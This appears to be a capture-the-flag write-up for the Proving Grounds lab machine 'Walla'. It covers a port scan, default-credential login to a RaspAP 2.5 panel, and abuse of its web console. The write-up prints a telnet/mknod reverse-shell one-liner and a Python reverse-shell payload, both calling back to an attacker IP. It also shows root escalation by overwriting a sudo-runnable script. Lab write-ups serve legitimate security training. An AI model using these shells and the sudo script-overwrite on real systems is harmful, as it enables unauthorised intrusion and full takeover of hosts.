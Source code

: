 ```yaml
---
description: Pg Practice Walla writeup
---
```


# Walla

## Nmap

```
sudo nmap 192.168.233.97 -p- -sS -sV

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8091/tcp  open  http       lighttpd 1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Connecting to port 8091 asks credentials for "RaspAP". Which is Debian based software for wireless routers.

![](<../../../.gitbook/assets/image (967).png>)

Looking up the default credentials we can log in with `admin:secret`.

![http://192.168.233.97:8091/](<../../../.gitbook/assets/image (968).png>)

Checking the settings we are running version 2.5. PoC exist here:[https://raw.githubusercontent.com/lb0x/cve-2020-24572/master/raspap\_pwn.py](https://raw.githubusercontent.com/lb0x/cve-2020-24572/master/raspap\_pwn.py). However I was unable to get code execution from this.

Looking at the exploit code we can see it is trying to interact with webconsole.php

![](<../../../.gitbook/assets/image (1427).png>)

We can manually browse to this at: [http://192.168.233.97:8091/includes/webconsole.php](http://192.168.233.97:8091/includes/webconsole.php).

![](<../../../.gitbook/assets/image (969).png>)

This along with telnet running on the target machine we can obtain a proper reverse shell:

```
mknod a p && telnet 192.168.49.233 443 0<a | /bin/sh 1>a
```

![](<../../../.gitbook/assets/image (970).png>)

![](<../../../.gitbook/assets/image (971) (1).png>)

Running linpeas.sh on the target reveals the following interesting information:

![](<../../../.gitbook/assets/image (972) (1).png>)

As www-data we can delete the file /home/walter/wifi\_reset.py and replace it with a python reverse shell of the same name:

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.233",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > /home/walter/wifi_reset.py
```

Then execute with `sudo` as root:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![](<../../../.gitbook/assets/image (973) (1).png>)
